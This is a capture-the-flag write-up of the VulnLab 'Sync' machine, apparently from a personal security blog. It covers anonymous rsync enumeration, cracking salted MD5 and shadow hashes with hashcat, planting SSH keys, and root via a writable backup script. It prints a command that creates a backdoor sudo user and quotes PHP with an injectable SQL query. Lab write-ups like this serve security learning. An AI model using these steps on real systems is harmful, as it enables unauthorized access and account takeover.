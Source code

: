 ```yaml
---
title: "VulnLab - Sync Writeup"
date: 2023-11-29
categories: ["Security"]
tags: ["CTF", "Writeup"]
---
```

![Sync Thumbnail](security/vulnlab/sync/vl-sync.png)

This is a write-up of the Sync machine on [VulnLab](https://www.vulnlab.com/) by xct. This box involves anonymous rsync, cracking salted md5 hashes, and manipulating a backup script.

## User

Hint:

```
Explore how to crack salted md5 hashes - both john & hashcat have a way of doing it.
Check for file system permission misconfigurations
```

I started by performing an nmap scan of the machine, and got the following results:

```
PORT    STATE SERVICE VERSION
21/tcp  open  ftp     vsftpd 3.0.5
22/tcp  open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 bd:de:eb:f3:35:c0:55:3d:ee:2c:6e:31:69:81:f7:47 (ECDSA)
|_  256 16:1d:80:4b:f1:19:2c:09:5c:fd:ec:2d:76:10:ac:e8 (ED25519)
80/tcp  open  http    Apache httpd 2.4.52 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Login
873/tcp open  rsync   (protocol version 31)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

FTP didn't have anonymous login enabled, I didn't have creds or see anything super interesting on the site, so I decided to investigate rsync.

### Rsync

Rsync is a file transfer utility, and we're able to anonymously connect and view the shares with `rsync -av --list-only rsync://<IP>`, I downloaded the open httpd share with `rsync -av rsync://<IP>:873/httpd <output directory>` and found the notable files index.php and site.db:

![Rsync Dump](security/vulnlab/sync/rsync-dump.png)

Index.php reveals how the authentication process for the site works:

```php
$secure = "6c4972f3717a5e881e282ad3105de01e";
if (isset($_POST['username']) && isset($_POST['password'])) {
    $username = $_POST['username'];
    $password = $_POST['password'];

    $hash = md5("$secure|$username|$password");
    $db = new SQLite3('../db/site.db');
    $result = $db->query("SELECT * FROM users WHERE username = '$username' AND password= '$hash'");
    $row = $result->fetchArray(SQLITE3_ASSOC);
    if ($row) {
        $_SESSION['username'] = $row['username'];
        header('Location: dashboard.php');
        exit();
    } else {
        $error_message = 'Invalid username or password.';
    }
}
```

We can see that the password hash consists of the $secure salt value, and username/password fetched from site.db. I was able to pull the hashes for users admin and triss from the sqlite db file, and put them into the format of `hash:6c4972f3717a5e881e282ad3105de01e|user|` to feed into hashcat with `hashcat -m 20 -a 0 <hash file> <wordlist>`. I was successfully able to crack triss' password, but not admin.

### Triss

With our new credentials, I was able to log into the site as Triss, but didn't get anywhere with it:

![Triss' Dashboard](security/vulnlab/sync/triss-dashboard.png)

They also didn't work on SSH which requires pubkey authentication, but I was able to login with them on FTP and access Triss' home folder. With write access to the home folder, I added my public key as an authorized key and logged in via SSH. I wasn't able to find anything of note, and linpeas didn't have a lot of useful output, so I started trying Triss' password on the other users on the system. The user Jennifer had the same password, and I was able to add my public key, and get the user flag:

![Jennifer's Home Dir](security/vulnlab/sync/jennifer-home.png)

## Root

Hint: `Check how the backups are done`

### Backup Contents

I first investigated the backups directory which had multiple zip archives containing backups of the website, /etc/passwd, and /etc/shadow:

![Backups](security/vulnlab/sync/backups.png)

![Backup Contents](security/vulnlab/sync/backups.png)

I dumped the contents of shadow, and cracked the hash of the sa user which was encoded with yescrypt:

![Shadow](security/vulnlab/sync/shadow.png)

### Backup Script

Now as sa, I investigated how the backups were actually performed. I looked for anything that may be related with `find / | grep backup`:

![Searching for the Backup Script](security/vulnlab/sync/backup-sh-found.png)

![Backup Script](security/vulnlab/sync/backup-script.png)

I found backup.sh which we can see is responsible for creating the backups. This script is likely ran as root because it's interacting with /etc/shadow, and we have write permissions over the script. I added the line `useradd -m -s /bin/bash -G sudo lfgberg && echo 'lfgberg:password1' | chpasswd` to create a new superuser named lfgberg the next time the script is run, which I logged in as to grab the root flag:

![Root Flag](security/vulnlab/sync/root-flag.png)
